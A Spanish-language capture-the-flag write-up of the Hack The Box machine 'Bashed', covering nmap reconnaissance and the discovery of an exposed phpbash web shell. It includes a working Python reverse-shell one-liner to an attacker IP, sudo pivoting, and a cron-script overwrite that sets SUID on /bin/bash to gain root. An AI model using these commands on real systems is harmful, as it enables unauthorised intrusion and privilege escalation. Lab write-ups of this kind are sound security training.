 ```yaml
---
layout: single
title: Hack The Box Bashed
excerpt: "Resolución de la máquina Bashed en la plataforma de Hack The Box"
date: 2022-01-02
classes: wide
header:
  teaser: /assets/images/htb-bashed/bashed.jpg
  teaser_home_page: true
categories:
  - Easy
  - Linux
tags:
  - File_Misconfiguration
  - Web                                                           
---
```

![](/assets/images/htb-bashed/banner-bashed.jpg)

## Bashed
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.68.

```bash
❯ ping -c 1 10.10.10.68
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=143 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 142.530/142.530/142.530/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.10.68 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:34 CST
Initiating Ping Scan at 18:34
Scanning 10.10.10.68 [4 ports]
Completed Ping Scan at 18:34, 0.17s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:34
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
SYN Stealth Scan Timing: About 43.17% done; ETC: 18:35 (0:00:41 remaining)
Completed SYN Stealth Scan at 18:35, 64.60s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up (0.20s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 64.95 seconds
           Raw packets sent: 67158 (2.955MB) | Rcvd: 67155 (2.686MB)
```

Mediante la función [extractPorts](/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.68
   5   │     [*] Open ports: 80
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p80 10.10.10.68 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:44 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Tenemos sólo el puerto 80 abierto, así que como siempre, antes de ver el contenido vía web, vamos a ocupar la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.10.68/
http://10.10.10.68/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Por el momento no vemos nada interesante, así que ahora si vamos a ver el contenido vía web.

![](/assets/images/htb-bashed/bashed-web.png)

Analizando un poco el sitio web, vemos que cuenta con un recurso llamado `single.html` en el cual nos hablando de ***phpbash*** y nos dan la pista que se encuentra en el servidor.

![](/assets/images/htb-bashed/bashed-web1.png)

Antes de tirar con herramientas tochas, vamos a tratar de descubrir rutas en el servidor mediante `nmap`:

```bash
❯ nmap --script http-enum -p80 10.10.10.68 -oN webScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 18:45 CST
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
```

Aqui ya vemos varios recursos que nos pueden llamadar la atención y empezaremos con `/dev/` y nos encontramos el proyecto del que nos hablan ***phpbash***:

![](/assets/images/htb-bashed/bashed-web2.png)

![](/assets/images/htb-bashed/bashed-web3.png)

Vemos que podemos ejecutar comandos a nivel de sistema; tanto en `phpbash.min.php` como en `phpbash.php`. Podriamos pensar que con dicha herramienta ya tenemos ejecución de comandos y podemos entablarnos una reverse shell, y es correcto. Para este caso, validamos primero que cuente con python y posteriormente nos pusimos en escucha por el puerto 443 y mandamos una reverse shell.

![](/assets/images/htb-bashed/bashed-web4.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 57542
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Como siempre y para trabajar maś cómodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ya nos encontramos dentro de la máquina como el usuario **www-data** y podemos visualizar la flag (user.txt). Vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
www-data@bashed:/home/arrexel$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$
```

Y vemos que podemos ejecutar cualquier comando como el usuario **scriptmanager**; asi que podemos migrar fácilmente a dicho usuario:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
scriptmanager@bashed:/home/arrexel$
```

Ya como el usuario **scriptmanager** podemos intuir que deben existir recursos asociados a dicho usuario, así que realizaremos una búsqueda.

```bash
scriptmanager@bashed:/$ find \-user scriptmanager 2>/dev/null | grep -v "proc"
./scripts
./scripts/test.py
./home/scriptmanager
./home/scriptmanager/.profile
./home/scriptmanager/.bashrc
./home/scriptmanager/.nano
./home/scriptmanager/.bash_history
./home/scriptmanager/.bash_logout
scriptmanager@bashed:/$
```

Tenemos un script en python bajo la ruta `/scripts`, así que vamos a echarle un ojito.

```bash
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jan  2 17:24 test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt; echo
testing 123!
scriptmanager@bashed:/scripts$
```

A este punto ya debemos estar pensando que se debe ejecutar una tarea a intervalos regulares y que posiblemente **root** ejecutar el script, ya que el resultado es un archivo llamado `test.txt` cuyo propietario es **root**. Para validarlo, podemos crear nuestro archivo de confianza [ProcMon](/procmon) en una ruta donde tengamos privilegios `/dev/shm`.

```bash
scriptmanager@bashed:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> [python] <defunct>
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< [python] <defunct>
^C
scriptmanager@bashed:/dev/shm$
```

Por lo tanto, como tenemos permisos de escrita para el archivo `test.py`, vamos a modificarlo para dar permisos SUID a `/bin/bash`.

```python
import os

os.system("chmod 4755 /bin/bash")
```

Ahora esperamos a que **root** nos ejecute el script y podamos ejecutar `bash -p` para ganar acceso como dicho dicho usuario.

```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Se comparte autopwn de la máquina [Bashed_Autopwn](https://github.com/k4miyo/Bashed-Autopwn)
